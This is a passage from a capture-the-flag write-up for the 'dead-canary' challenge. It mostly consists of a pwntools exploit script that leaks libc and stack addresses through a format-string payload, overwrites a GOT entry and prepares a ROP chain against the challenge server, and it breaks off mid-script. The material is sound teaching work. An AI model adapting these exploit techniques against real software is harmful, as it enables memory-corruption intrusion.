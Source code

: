 ```python

print('\nreturnoffset:',hex(stack - (rbp + 8)),'\n')
```

Normally I'd just do this in GDB while crafting my exploit: Once I get to the part where I need the offset I use `pause()`, connect to the process, set my break point, continue, unpause (press _return_), then at the break, look at the return address, then `p/x leak - return`, etc...

And that is exactly what the script above does.  I'm getting tired of manual offset computation (if you cannot tell).  And sometimes it can cost you time if you have an error in your cut/paste or type it in wrong.  Also, sometimes its not always consistent, so having code do this for you is better.  Then you can run this 100 times to verify (with ASLR) that it's correct.

> I could not find a way using the native pwntools `gdb.attach` to actually send commands to GDB, hence the above.

Output:

```bash
returnoffset: 0x200
```

[exploit6.py](exploit6.py):

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./dead-canary')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')
binary.symbols['main'] = 0x400737

rop = ROP([binary])
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

offset = 6
libcoffset = 41
stackoffset = 43
returnoffset = 0x200

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31744)

# first pass, inf. retries if we blow out canary, leak libc, leak stack
p.recvuntil('name: ')
payload  = b'%' + str(libcoffset).encode().rjust(2,b'0') + b'$018p'
payload += b'%' + str(stackoffset).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+2,{binary.got['__stack_chk_fail']:binary.symbols['main']},numbwritten=2*18)
payload += ((0x118 - 0x10 + 1) - len(payload)) * b'A'
p.send(payload)
p.recvuntil('Hello ')
_ = p.recv(18)
__libc_start_main = int(_,16) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
_ = p.recv(18)
retaddr = int(_,16) - returnoffset
log.info('retaddr: ' + hex(retaddr))

# final pass, setup ROP chain in retaddr
p.recvuntil('name: ')
```